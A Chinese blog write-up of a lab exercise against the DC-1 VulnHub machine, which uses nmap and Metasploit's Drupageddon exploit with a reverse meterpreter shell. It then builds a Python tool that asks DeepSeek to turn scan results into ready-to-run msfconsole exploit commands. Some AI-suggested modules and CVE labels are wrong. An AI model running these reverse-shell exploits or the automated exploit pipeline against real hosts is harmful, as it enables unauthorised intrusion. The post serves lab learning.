




# 智能渗透测试：AI 半自动化攻防的实践与探索-先知社区

> **来源**: https://xz.aliyun.com/news/17243  
> **文章ID**: 17243

---

# 智能渗透测试：AI 半自动化攻防的实践与探索

## 前言

前几天看到一个 AI 半自动渗透的分享，想着 AI 已经这么强了？决定去实验一下，看看怎么回事，不过有点小恐慌，AI 都自动化渗透了，还要我们干什么 emo 了，呜呜呜呜呜，不过还是需要简单看一下如何赋能的，毕竟渗透的终点一定是自动化

## 环境搭建

首先我们只需要测试环境就 ok 了，主要验证 AI 半自动化渗透的可行性

这里我就使用 DC1 的靶机了

首先下载<https://www.vulnhub.com/entry/dc-1,292/>

然后我们导入镜像后



设置网络记得和自己的 kail 需要一致，然后就完成了



## AI 半自动化思路之人工模拟

首先当然是需要我们人工来攻击一遍，然后 AI 模拟流程

如果是人工遇到一个站点如何攻击呢

下面是简单的模拟

首先遇到一个站点，对于单站点的攻击手法就是比较局限了，我们直接按照一般的方法

首先就是 nmap 扫描了，先确定我们的 ip

```
┌──(root㉿kali)-[/home/lll/Desktop]
└─# nmap -sP 192.168.177.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 11:16 CST
Nmap scan report for 192.168.177.1
Host is up (0.00020s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.177.2
Host is up (0.00013s latency).
MAC Address: 00:50:56:EC:DF:0E (VMware)
Nmap scan report for 192.168.177.130
Host is up (0.00031s latency).
MAC Address: 00:0C:29:EC:AD:38 (VMware)
Nmap scan report for 192.168.177.254
Host is up (0.00033s latency).
MAC Address: 00:50:56:F1:8C:83 (VMware)
Nmap scan report for 192.168.177.146
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.03 seconds

```

然后就是详细的扫描了

```
┌──(root㉿kali)-[/home/…/Desktop/vulhub/thinkphp/5-rce]
└─# nmap -A -p- -v 192.168.177.130 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 11:22 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:22
Completed NSE at 11:22, 0.00s elapsed
Initiating NSE at 11:22
Completed NSE at 11:22, 0.00s elapsed
Initiating NSE at 11:22
Completed NSE at 11:22, 0.00s elapsed
Initiating ARP Ping Scan at 11:22
Scanning 192.168.177.130 [1 port]
Completed ARP Ping Scan at 11:22, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:22
Completed Parallel DNS resolution of 1 host. at 11:22, 0.06s elapsed
Initiating SYN Stealth Scan at 11:22
Scanning 192.168.177.130 [65535 ports]
Discovered open port 111/tcp on 192.168.177.130
Discovered open port 22/tcp on 192.168.177.130
Discovered open port 80/tcp on 192.168.177.130
Discovered open port 54994/tcp on 192.168.177.130
Completed SYN Stealth Scan at 11:22, 4.67s elapsed (65535 total ports)
Initiating Service scan at 11:22
Scanning 4 services on 192.168.177.130
Completed Service scan at 11:22, 11.23s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 192.168.177.130
NSE: Script scanning 192.168.177.130.
Initiating NSE at 11:22
Completed NSE at 11:23, 3.04s elapsed
Initiating NSE at 11:23
Completed NSE at 11:23, 0.20s elapsed
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Nmap scan report for 192.168.177.130
Host is up (0.00051s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Welcome to Drupal Site | Drupal Site
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41126/tcp6  status
|   100024  1          43073/udp   status
|   100024  1          45322/udp6  status
|_  100024  1          54994/tcp   status
54994/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:EC:AD:38 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Uptime guess: 0.002 days (since Thu Mar 13 11:20:50 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.177.130

NSE: Script Post-scanning.
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.15 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

这里根据对应的服务，我们看看有没有相应的漏洞



可以看到页面是一个 cms


这里我们就可以开始收集 POC 了

```
┌──(root㉿kali)-[/home/…/Desktop/vulhub/thinkphp/5-rce]
└─# msfconsole
Metasploit tip: You can pivot connections over sessions started with the 
ssh_login modules
                                                  

 ______________________________________________________________________________
|                                                                              |
|                   METASPLOIT CYBER MISSILE COMMAND V5                        |
|______________________________________________________________________________|
      \                                  /                      /
       \     .                          /                      /            x
        \                              /                      /
         \                            /          +           /
          \            +             /                      /
           *                        /                      /
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Drupal

Matching Modules
================

   #   Name                                                              Disclosure Date  Rank       Check  Description
   -   ----                                                              ---------------  ----       -----  -----------
   0   exploit/unix/webapp/drupal_coder_exec                             2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1   exploit/unix/webapp/drupal_drupalgeddon2                          2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2     \_ target: Automatic (PHP In-Memory)                            .                .          .      .
   3     \_ target: Automatic (PHP Dropper)                              .                .          .      .
   4     \_ target: Automatic (Unix In-Memory)                           .                .          .      .
   5     \_ target: Automatic (Linux Dropper)                            .                .          .      .
   6     \_ target: Drupal 7.x (PHP In-Memory)                           .                .          .      .
   7     \_ target: Drupal 7.x (PHP Dropper)                             .                .          .      .
   8     \_ target: Drupal 7.x (Unix In-Memory)                          .                .          .      .
   9     \_ target: Drupal 7.x (Linux Dropper)                           .                .          .      .
   10    \_ target: Drupal 8.x (PHP In-Memory)                           .                .          .      .
   11    \_ target: Drupal 8.x (PHP Dropper)                             .                .          .      .
   12    \_ target: Drupal 8.x (Unix In-Memory)                          .                .          .      .
   13    \_ target: Drupal 8.x (Linux Dropper)                           .                .          .      .
   14    \_ AKA: SA-CORE-2018-002                                        .                .          .      .
   15    \_ AKA: Drupalgeddon 2                                          .                .          .      .
   16  exploit/multi/http/drupal_drupageddon                             2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   17    \_ target: Drupal 7.0 - 7.31 (form-cache PHP injection method)  .                .          .      .
   18    \_ target: Drupal 7.0 - 7.31 (user-post PHP injection method)   .                .          .      .
   19  auxiliary/gather/drupal_openid_xxe                                2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   20  exploit/unix/webapp/drupal_restws_exec                            2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   21  exploit/unix/webapp/drupal_restws_unserialize                     2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   22    \_ target: PHP In-Memory                                        .                .          .      .
   23    \_ target: Unix In-Memory                                       .                .          .      .
   24  auxiliary/scanner/http/drupal_views_user_enum                     2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   25  exploit/unix/webapp/php_xmlrpc_eval                               2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


Interact with a module by name or index. For example info 25, use 25 or use exploit/unix/webapp/php_xmlrpc_eval  
```

根据我们的版本选择 poc，可以一个一个去尝试攻击

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/multi/http/drupal_drupageddon 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/drupal_drupageddon) > set RHOSTS 192.168.177.130
RHOSTS => 192.168.177.130
msf6 exploit(multi/http/drupal_drupageddon) > run

[*] Started reverse TCP handler on 192.168.177.146:4444 
[*] Sending stage (39927 bytes) to 192.168.177.130
[*] Meterpreter session 1 opened (192.168.177.146:4444 -> 192.168.177.130:52438) at 2025-03-13 11:19:33 +0800

```

成功 getshell 了

```
meterpreter > ls
Listing: /var/www
=================

Mode           Size           Type  Last modified       Name
----           ----           ----  -------------       ----
100644/rw-r--  747324309678   fil   188498731153-02-09  .gitignore
r--                                  10:33:43 +0800
100644/rw-r--  2476907640179  fil   188498731153-02-09  .htaccess
r--            9                     10:33:43 +0800
100644/rw-r--  6360846566857  fil   188498731153-02-09  COPYRIGHT.txt
r--                                  10:33:43 +0800
100644/rw-r--  6231997547947  fil   188498731153-02-09  INSTALL.mysql.txt
r--                                  10:33:43 +0800
100644/rw-r--  8048768714578  fil   188498731153-02-09  INSTALL.pgsql.txt
r--                                  10:33:43 +0800
100644/rw-r--  5574867551506  fil   188498731153-02-09  INSTALL.sqlite.txt
r--                                  10:33:43 +0800
100644/rw-r--  7671241089171  fil   188498731153-02-09  INSTALL.txt
r--            7                     10:33:43 +0800
100755/rwxr-x  7770454833732  fil   188270147139-03-11  LICENSE.txt
r-x            4                     23:02:15 +0800
100644/rw-r--  3518007712972  fil   188498731153-02-09  MAINTAINERS.txt
r--            7                     10:33:43 +0800
100644/rw-r--  2308974418867  fil   188498731153-02-09  README.txt
r--            2                     10:33:43 +0800
100644/rw-r--  4141207467767  fil   188498731153-02-09  UPGRADE.txt
r--            4                     10:33:43 +0800
100644/rw-r--  2836396402938  fil   188498731153-02-09  authorize.php
r--            8                     10:33:43 +0800
100644/rw-r--  3092376453840  fil   188498731153-02-09  cron.php
r--                                  10:33:43 +0800
100644/rw-r--  223338299444   fil   211037522224-07-25  flag1.txt
r--                                  12:21:02 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  includes
r-x            2                     10:33:43 +0800
100644/rw-r--  2272037700113  fil   188498731153-02-09  index.php
r--                                  10:33:43 +0800
100644/rw-r--  3019362009791  fil   188498731153-02-09  install.php
r--                                  10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  misc
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  modules
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  profiles
r-x            2                     10:33:43 +0800
100644/rw-r--  6704443950617  fil   188498731153-02-09  robots.txt
r--                                  10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  scripts
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  sites
r-x            2                     10:33:43 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  themes
r-x            2                     10:33:43 +0800
100644/rw-r--  8564594286947  fil   188498731153-02-09  update.php
r--            7                     10:33:43 +0800
100644/rw-r--  9354438772866  fil   188498731153-02-09  web.config
r--                                  10:33:43 +0800
100644/rw-r--  1791001362849  fil   188498731153-02-09  xmlrpc.php
r--         
```

## AI 代替人工分析模拟

我们刚刚人工利用漏洞了一遍，但是如果是 AI，又该如何知道我们应该如何攻击呢？

思考一下

首先我们需要结合 AI 和 msf，因为 AI 并不能给出我们这个漏洞的详细 POC

但是如果结合 msf，那 Ai 只需要根据我们的漏洞和一些分析，直接给出我们 msf 中应该如何使用 POC

如何实现呢

首先给出代码部分

```
import nmap
import json
import argparse
import sys
from openai import OpenAI  # deepseek也用openai接口

class AutoExploiter:
    # 预定义prompt模板
    ANALYSIS_PROMPT_TEMPLATE = """分析以下Nmap扫描结果，并提供：
1. 可能存在的漏洞
2. 推荐使用的Metasploit模块（包括完整路径）
3. 必要的参数设置
4. 利用的成功概率评估
扫描结果：
{scan_results}
请以JSON格式返回，格式如下：
{{
    "exploits": [
        {{
            "type": "exploit/auxiliary",
            "path": "完整msf模块路径",
            "port": port_number,
            "params": {{"参数名": "参数值"}},
            "probability": "成功概率评估",
            "description": "漏洞描述"
            "msfconsolecommand"："可以在命令行直接执行的msfconsole命令，格式为 msfconsole -x ...."
        }}
    ]
}}
严格按照上述JSON格式返回，不要包含任何其他文字说明。也不需要```json符号，以便解析。
"""

    def __init__(self, target_ip, lhost):
        self.target_ip = target_ip
        self.lhost = lhost
        self.scan_results = None
        self.msf_client = None
        self.deepseek_client = OpenAI(api_key='xxxxx', base_url="https://api.deepseek.com/v1")  # 使用OpenAI客户端

    def analyze_with_gpt(self):
        """使用GPT分析扫描结果"""
        try:
            # 格式化扫描结果
            formatted_results = json.dumps(self.scan_results, indent=2)

            # 使用预定义的prompt模板，填入扫描结果
            prompt = self.ANALYSIS_PROMPT_TEMPLATE.format(
                scan_results=formatted_results
            )

            # 调用OpenAI API
            response = self.deepseek_client.chat.completions.create(
                model="deepseek-v3",  # 阿里云用的是模型名称，deepseek官网用的是deepseek-chat
                messages=[
                    {"role": "system",
                     "content": "You are a cybersecurity expert specialized in vulnerability analysis and exploitation."},
                    {"role": "user", "content": prompt}
                ],
                temperature=0
            )
            print(response.choices[0].message.content)
            # 解析响应
            try:
                analysis = json.loads(response.choices[0].message.content)
                print("
[+] GPT分析完成")
                return analysis.get('exploits', [])
            except json.JSONDecodeError:
                print("[-] 无法解析GPT的响应")
                print("响应内容:", response.choices[0].message.content)
                return []

        except Exception as e:
            print(f"[-] GPT分析失败: {str(e)}")
            return []

    def scan_target(self):
        """使用Nmap扫描目标"""
        try:
            print(f"[*] 开始扫描目标 {self.target_ip}...")

            nm = nmap.PortScanner()
            # 运行 nmap -T4 -A -v
            nm.scan(self.target_ip, arguments='-T4 -A -v')

            self.scan_results = nm[self.target_ip]
            print("[+] 扫描完成")
            print(self.scan_results)
            return self.analyze_with_gpt()  # 调用GPT分析
        except Exception as e:
            print(f"[-] 扫描失败: {str(e)}")
            return None


# main()函数中的修改
def main():
    parser = argparse.ArgumentParser(description='自动化漏洞扫描与利用工具')
    parser.add_argument('-t', '--target', required=True, help='目标IP地址')
    parser.add_argument('-l', '--lhost', required=True, help='本地IP地址(用于接收反弹shell)')

    args = parser.parse_args()
    exploiter = AutoExploiter(args.target, args.lhost)

    try:

        # 扫描目标并使用GPT分析结果
        print('scan beginning')
        exploits = exploiter.scan_target()

        if not exploits:
            print("[-] 未发现可利用的漏洞")
            return

        print("
[+] GPT分析发现以下可能的漏洞利用方法:")
        for i, exploit in enumerate(exploits):
            print(f"{i + 1}. {exploit['path']}")
            print(f"   描述: {exploit['description']}")
            print(f"   端口: {exploit['port']}")
            print(f"   成功率: {exploit['probability']}")
            print(f"   msf命令: {exploit['msfconsolecommand']}")
            print()

    finally:
        print('finish')


if __name__ == "__main__":
    main()
```

首先我们需要 AI 返回规定的格式信息

```
分析以下Nmap扫描结果，并提供：
1. 可能存在的漏洞
2. 推荐使用的Metasploit模块（包括完整路径）
3. 必要的参数设置
4. 利用的成功概率评估
扫描结果：
{scan_results}
请以JSON格式返回，格式如下：
{{
    "exploits": [
        {{
            "type": "exploit/auxiliary",
            "path": "完整msf模块路径",
            "port": port_number,
            "params": {{"参数名": "参数值"}},
            "probability": "成功概率评估",
            "description": "漏洞描述"
            "msfconsolecommand"："可以在命令行直接执行的msfconsole命令，格式为 msfconsole -x ...."
        }}
    ]
}}
严格按照上述JSON格式返回，不要包含任何其他文字说明。也不需要```json符号，以便解析。
```

AI 返回的结果我们就能够清楚明了的看到了

```
读取 Nmap 扫描结果
解析可能的漏洞
推荐适合的 Metasploit 模块
提供 完整的 msfconsole 命令
结果必须是 JSON 格式，方便代码解析
```

当然我们还需要设定一些可以自定义的一些参数

比如攻击的地址和端口，还有我们反弹 shell 的 ip，因为这样生成的命令才是有效的，我们可以先使用这个去问问 AI

我们还需要集成一下 nmap

```
def scan_target(self):
"""使用Nmap扫描目标"""
try:
    print(f"[*] 开始扫描目标 {self.target_ip}...")
    nm = nmap.PortScanner()
    nm.scan(self.target_ip, arguments='-T4 -A -v')  # 运行 nmap -T4 -A -v
    self.scan_results = nm[self.target_ip]
    print("[+] 扫描完成")
    return self.analyze_with_gpt()  # 调用 GPT 分析
except Exception as e:
    print(f"[-] 扫描失败: {str(e)}")
    return None

```

之后调用 analyze\_with\_gpt 去分析我们的结果

```
def analyze_with_gpt(self):
"""使用GPT分析扫描结果"""
try:
    formatted_results = json.dumps(self.scan_results, indent=2)
    prompt = self.ANALYSIS_PROMPT_TEMPLATE.format(scan_results=formatted_results)
    response = self.deepseek_client.chat.completions.create(
        model="deepseek-v3",
        messages=[
            {"role": "system",
             "content": "You are a cybersecurity expert specialized in vulnerability analysis and exploitation."},
            {"role": "user", "content": prompt}
        ],
        temperature=0
    )
    print(response.choices[0].message.content)
    try:
        analysis = json.loads(response.choices[0].message.content)
        return analysis.get('exploits', [])
    except json.JSONDecodeError:
        print("[-] 无法解析GPT的响应")
        return []
except Exception as e:
    print(f"[-] GPT分析失败: {str(e)}")
    return []

```

很重要的一点就是需要定义我们的 AI 角色

这样结果的准确率会高很多

## 实战效果

上面说清楚了我们的实现，这里我们来实操一下看看怎么个事

首先需要设定的几个参数就是目标 ip 和反弹 ip



然后给出了我们的可能实现

```
{
    "exploits": [
        {
            "type": "exploit/multi/http",
            "path": "exploit/multi/http/drupal_drupageddon",
            "port": 80,
            "params": {
                "RHOSTS": "192.168.177.130",
                "LHOST": "192.168.177.146",
                "LPORT": "4444",
                "PAYLOAD": "php/meterpreter/reverse_tcp"
            },
            "probability": "high",
            "description": "Drupalgeddon 2 (CVE-2018-7600) is a highly critical vulnerability in Drupal's core, allowing remote code execution.",
            "msfconsolecommand": "msfconsole -x 'use exploit/multi/http/drupal_drupageddon; set RHOSTS 192.168.177.130; set LHOST 192.168.177.146; set LPORT 4444; set PAYLOAD php/meterpreter/reverse_tcp; run'"
        },
        {
            "type": "exploit/unix/webapp",
            "path": "exploit/unix/webapp/php_cgi_arg_injection",
            "port": 80,
            "params": {
                "RHOSTS": "192.168.177.130",
                "LHOST": "192.168.177.146",
                "LPORT": "4444",
                "PAYLOAD": "cmd/unix/reverse_netcat"
            },
            "probability": "medium",
            "description": "Apache 2.2.22 on Debian may be vulnerable to PHP-CGI Argument Injection (CVE-2012-1823), allowing remote code execution.",
            "msfconsolecommand": "msfconsole -x 'use exploit/unix/webapp/php_cgi_arg_injection; set RHOSTS 192.168.177.130; set LHOST 192.168.177.146; set LPORT 4444; set PAYLOAD cmd/unix/reverse_netcat; run'"
        },
        {
            "type": "exploit/linux/ssh",
            "path": "exploit/linux/ssh/ssh_login",
            "port": 22,
            "params": {
                "RHOSTS": "192.168.177.130",
                "USERNAME": "root",
                "PASSWORD": "to-be-bruteforced"
            },
            "probability": "low",
            "description": "OpenSSH 6.0p1 (Debian 4+deb7u7) may be vulnerable to credential brute-force attacks. If default credentials exist, it can be exploited for remote access.",
            "msfconsolecommand": "msfconsole -x 'use exploit/linux/ssh/ssh_login; set RHOSTS 192.168.177.130; set USERNAME root; set PASSWORD to-be-bruteforced; run'"
        },
        {
            "type": "exploit/unix/rpc",
            "path": "exploit/unix/rpc/rpcbind",
            "port": 111,
            "params": {
                "RHOSTS": "192.168.177.130"
            },
            "probability": "low",
            "description": "The rpcbind service running on port 111 may be vulnerable to remote code execution attacks if misconfigured.",
            "msfconsolecommand": "msfconsole -x 'use exploit/unix/rpc/rpcbind; set RHOSTS 192.168.177.130; run'"
        }
    ]
}

```

尝试利于一下呢

只需要拿着输入的命令完全不需要任何的操作，直接 getshell 了

```
──(root㉿kali)-[/home/lll/Desktop]
└─# msfconsole -x 'use exploit/multi/http/drupal_drupageddon; set RHOSTS 192.168.177.130; set LHOST 192.168.177.146; set LPORT 4444; set PAYLOAD php/meterpreter/reverse_tcp; run'
Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it 
with setg RHOSTS x.x.x.x
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
RHOSTS => 192.168.177.130
LHOST => 192.168.177.146
LPORT => 4444
PAYLOAD => php/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 192.168.177.146:4444 
[*] Sending stage (39927 bytes) to 192.168.177.130
[*] Meterpreter session 1 opened (192.168.177.146:4444 -> 192.168.177.130:52461) at 2025-03-13 11:55:37 +0800

```

```
meterpreter > ls
Listing: /var/www
=================

Mode           Size           Type  Last modified       Name
----           ----           ----  -------------       ----
100644/rw-r--  747324309678   fil   188498731153-02-09  .gitignore
r--                                  10:33:43 +0800
100644/rw-r--  2476907640179  fil   188498731153-02-09  .htaccess
r--            9                     10:33:43 +0800
100644/rw-r--  6360846566857  fil   188498731153-02-09  COPYRIGHT.txt
r--                                  10:33:43 +0800
100644/rw-r--  6231997547947  fil   188498731153-02-09  INSTALL.mysql.txt
r--                                  10:33:43 +0800
100644/rw-r--  8048768714578  fil   188498731153-02-09  INSTALL.pgsql.txt
r--                                  10:33:43 +0800
100644/rw-r--  5574867551506  fil   188498731153-02-09  INSTALL.sqlite.txt
r--                                  10:33:43 +0800
100644/rw-r--  7671241089171  fil   188498731153-02-09  INSTALL.txt
r--            7                     10:33:43 +0800
100755/rwxr-x  7770454833732  fil   188270147139-03-11  LICENSE.txt
r-x            4                     23:02:15 +0800
100644/rw-r--  3518007712972  fil   188498731153-02-09  MAINTAINERS.txt
r--            7                     10:33:43 +0800
100644/rw-r--  2308974418867  fil   188498731153-02-09  README.txt
r--            2                     10:33:43 +0800
100644/rw-r--  4141207467767  fil   188498731153-02-09  UPGRADE.txt
r--            4                     10:33:43 +0800
100644/rw-r--  2836396402938  fil   188498731153-02-09  authorize.php
r--            8                     10:33:43 +0800
100644/rw-r--  3092376453840  fil   188498731153-02-09  cron.php
r--                                  10:33:43 +0800
100644/rw-r--  223338299444   fil   211037522224-07-25  flag1.txt
r--                                  12:21:02 +0800
040755/rwxr-x  1759218604851  dir   188498731153-02-09  includes
r-x            2                     10:33:43 +0800
